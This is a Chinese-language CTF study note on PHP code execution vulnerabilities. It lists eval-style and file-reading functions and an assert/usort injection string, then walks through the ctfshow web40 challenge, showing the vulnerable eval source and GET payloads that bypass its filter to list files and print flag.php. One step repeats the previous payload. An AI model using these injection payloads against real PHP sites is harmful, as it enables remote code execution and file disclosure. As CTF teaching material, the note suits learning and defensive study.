









## 代码执行漏洞

```php
应用程序在调用一些能够将字符串转换为代码的函数（如PHP中的eval）时，没有考虑用户是否控制这个字符串，将造成代码执行漏洞。
```

------

### 代码执行函数

```php
eval()
assert()
call_user_func()/call_user_func_array()
create_function()
usort()/uasort()
preg_replace()
array_map()
${php代码}
```

------

### 读取文件函数

```php
highlight_file() highlight_file() 函数对文件进行语法高亮显示
show_source() show_source() 函数对文件进行语法高亮显示。是highlight_file的别名
php_strip_whitespace() 用于返回已删除 PHP 注释以及空白字符的源代码文件，需要配合输出使用
file_get_contents() 把整个文件读入一个字符串中。
readfile() 函数读取一个文件，并写入到输出缓冲。
file() 函数把整个文件读入一个数组中。
fopen() fopen — 打开文件或者 URL,配合fread()使用
fread() 函数读取文件
include() 获取指定文件中存在的所有文本/代码/标记，并复制到使用 include 语句的文件中。
include_once()
require()
require_once()
popen() 函数打开进程文件指针。
fgets() 函数从文件指针中读取一行。
fpassthru() 函数从打开文件的当前位置开始读取所有数据，直到文件末尾（EOF）
fgetcsv() 函数从文件指针中读入一行并解析 CSV 字段
fgetss() 函数从打开的文件中读取一行并过滤掉 HTML 和 PHP 标记。
fscanf() 函数根据指定的格式对来自打开的文件的输入进行解析。
parse_ini_file() 函数解析一个配置文件（ini 文件），并以数组的形式返回其中的设置。貌似无法成功

highlight_file(("flag.txt"));
show_source(("flag.txt"));
echo (php_strip_whitespace("flag.txt"));
echo file_get_contents(("flag.txt"));
readfile(("flag.txt"));
var_dump(file(("flag.txt")));    用print_r也可以打印数组
print(fread(fopen("flag.txt","r"),filesize("flag.txt")));    需要配合输出函数使用
include("flag.txt");
fread(popen("flag.txt","r"),filesize('flag.txt'));  貌似不用输出函数也可以
echo fgets(fopen("flag.txt","r"),1024);     需要配合输出函数使用
fpassthru(fopen("flag.txt","r"));
var_dump(fgetcsv(fopen("flag.txt","r")));    需要配合打印数组函数使用
echo fgetss(fopen("flag.txt","r"));     需要配合输出函数使用
var_dump(fscanf(fopen("flag.txt","r"),"%s"));    需要配合打印数组函数使用
```

------

### 代码执行函数说明

- eval()

  

  传入的必须是有效的 PHP 代码。所有的语句必须以分号结尾。

  return 语句会立即中止当前字符串的执行。

  代码执行的作用域是调用 eval() 处的作用域。因此，eval() 里任何的变量定义、修改，都会在函数结束后被保留。

- assert()

  

- call_user_func()/call_user_func_array()

  

  可以传递任何内置函数或用户自定义函数，除了语言结构如array(),echo(),empty(),eval(),exit(),isset(),list(),print(),unset()

- create_function()

  

- usort()/uasort()

  

  例如：

  ```php
  ?1[]=phpinfo()&1[]=123&2=assert
  usort($_GET[1],'assert');
  ```

- ${php代码}

  例如：`${phpinfo()};`

- ob_start()

  

------

### 代码执行CTF题目

#### ctfshow web40题

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

扫描目录文件

```php
?c=print_r(array_reverse(scandir(pos(localeconv()))));
```



查看倒数第二个元素。直接将数组逆序在将指针调整下一个

```php
?c=print_r(array_reverse(scandir(pos(localeconv()))));
```



最后查看flag.php文件

```php
?c=show_source(next(array_reverse(scandir(current(localeconv())))));
```



